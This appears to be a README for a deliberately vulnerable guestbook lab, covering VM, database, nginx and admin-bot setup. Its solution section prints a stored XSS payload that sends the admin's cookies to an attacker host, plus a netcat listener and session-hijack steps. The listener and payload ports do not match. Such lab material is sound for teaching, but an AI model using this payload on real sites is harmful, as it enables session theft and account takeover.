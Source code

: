 # XSS-attack-1 (Welcome) 

Download VM:
* Credentials: ```user/user```, ```root/123456```
* SSH disabled
* Debian 11, 4 GB disk

# Agenda

Our old friend Bob, who was very pleased with our help earlier, asked us to look at the blog of his old friend Michael, with whom they studied at the Faculty of Journalism. Michael wants to start his own blog too and has turned to a well-known website building company. The company divided the work into several stages, and one of the first stages was the launch of the guestbook. We need to find out if Michael turned to this company for a reason and whether it makes its resources safe.

# Setup

*Requirements:*  **4 GB** of disk space for VM.

Put all files in **web** to folder **/var/www/html/**

```
sudo apt-get update --allow-releaseinfo-change
sudo apt-get install -y nginx php-fpm mariadb-server curl unzip xvfb libxi6 libgconf-2-4 default-jdk wget htop mc unzip php-mysql maven sudo

sudo chown www-data:www-data -R /var/www/html/
sudo chmod 755 -R /var/www/html/*
```

#### Chrome driver and selenium setup
```bash
wget https://dl.google.com/linux/direct/google-chrome-stable_current_amd64.deb
sudo apt install ./google-chrome-stable_current_amd64.deb
wget https://chromedriver.storage.googleapis.com/2.41/chromedriver_linux64.zip
unzip chromedriver_linux64.zip
sudo mv chromedriver /usr/bin/chromedriver
sudo chown root:root /usr/bin/chromedriver
sudo chmod +x /usr/bin/chromedriver
rm -f google-chrome-stable_current_amd64.deb
rm -f chromedriver_linux64.zip
```    
    

#### Database setup
```bash
    sudo mysql -e "UPDATE mysql.user SET Password = PASSWORD('12345') WHERE User = 'root'"
    sudo mysql -e "DELETE FROM mysql.user WHERE User='';"
    sudo mysql -e "DELETE FROM mysql.user WHERE User='root' AND Host NOT IN ('localhost', '127.0.0.1', '::1');"
    sudo mysql -e "DROP DATABASE IF EXISTS test;"
    sudo mysql -e "create database guestbook";
    sudo mysql -e "CREATE USER 'admin'@'localhost' IDENTIFIED BY 'admin'";
    sudo mysql -e "GRANT ALL PRIVILEGES ON guestbook . * TO 'admin'@'localhost'";
    sudo mysql -e "FLUSH PRIVILEGES";
```

#### Fill database with data
```bash
sudo mysql -e "CREATE TABLE IF NOT EXISTS guestbook.posts (  \`id\` INT NOT NULL AUTO_INCREMENT, \`content\` MEDIUMTEXT NULL,  PRIMARY KEY (\`id\`))ENGINE = InnoDB;";
sudo mysql -e "CREATE TABLE IF NOT EXISTS guestbook.users (  \`id\` INT NOT NULL AUTO_INCREMENT,  \`login\` VARCHAR(45) NULL,  \`password\` VARCHAR(45) NULL,  PRIMARY KEY (\`id\`))ENGINE = InnoDB;";
sudo mysql -e " insert into guestbook.users(\`login\`,\`password\`) values ('admin','30bdad3b2f064123f40da204e6172db6');";
```

#### Nginx configure

Change **/etc/nginx/sites-enabled/default** (php-fpm version may be different):
```bash
		server {
				listen 80 default_server;
				listen [::]:80 default_server;
				root /var/www/html;
				index index.php;
				server_name _;
				location / {
						try_files $uri $uri/ =404;
				}
				location ~ \.php$ {
						include snippets/fastcgi-php.conf;
						fastcgi_pass unix:/run/php/php7.3-fpm.sock;
				}
		}

```
Reload nginx config
```bash
sudo service nginx restart
#sudo systemctl restart nginx
```

#### Bot setup
There are several command-line options for the bot:
 - -l,--login 
 - -p,--password
 - -h,--host - if not set, bot will try to get IPV4 from metadata ```169.254.169.254/latest/meta-data/public-ipv4```. You can set your host if not used in the cloud. See sample below.
 - -s,--screenshot - if set, will make a screenshot. Good for debugging.



Put bot folder to some folder on disk, for example **/home/user/bot**. 

Bot folder structure:
- /home/user/bot/src
- /home/user/bot/pom.xml


Build bot from source code:
```
cd /home/user/bot
mvn package
```

Create cron job with bot:
```
* * * * * java -jar /home/user/bot/target/bot-1.0.jar -l admin -p someStrongAndUltraSecretpass --screenshot /home/user/admin.jpg >/dev/null 2>&1
```

Don't forget to restart cron
```
sudo service cron restart
#or
systemctl restart cron
```



You can set host by yourself:

```
java -jar /home/user/bot/target/bot-1.0.jar -l admin -p someStrongAndUltraSecretpass -h 192.168.93.150 --screenshot /home/user/admin.jpg 
```

One-liner to automatically get IP address 

```bash
java -jar /home/user/bot/target/bot-1.0.jar -l admin -p someStrongAndUltraSecretpass -h `hostname --all-ip-addresses` --screenshot /home/user/admin.jpg
```




## How to check that everything works ?

1. Open the main page. You should see the working app. Try to login with ```admin/someStrongAndUltraSecretpass```
2. If you set cron correctly with screenshot option (```--screenshot /home/admin/admin.jpg```), you should get image ```/home/admin/admin.jpg```. Download it and check if you can find text **Hello, Michael!** on the image - everything is fine. If not, the bot could not authorize, and you need to check your cron job.



## Solution

This task is about Stored XSS.
It's better to use **netcat** to solve this task.
- Run **nc** on you host with command : ```nc -lvp 8888```. Assume your host IP address is **10.10.10.10**
- Post next comment:
    ```javascript 
    <script type="text/javascript">
    document.location='http://10.10.10.10:9999/?c='+document.cookie;
    </script>
    ```
- Wait some time, and you will see Admin cookies;
- With the CookieEditor extension (or other), you can change cookies and authorize as Administrator.


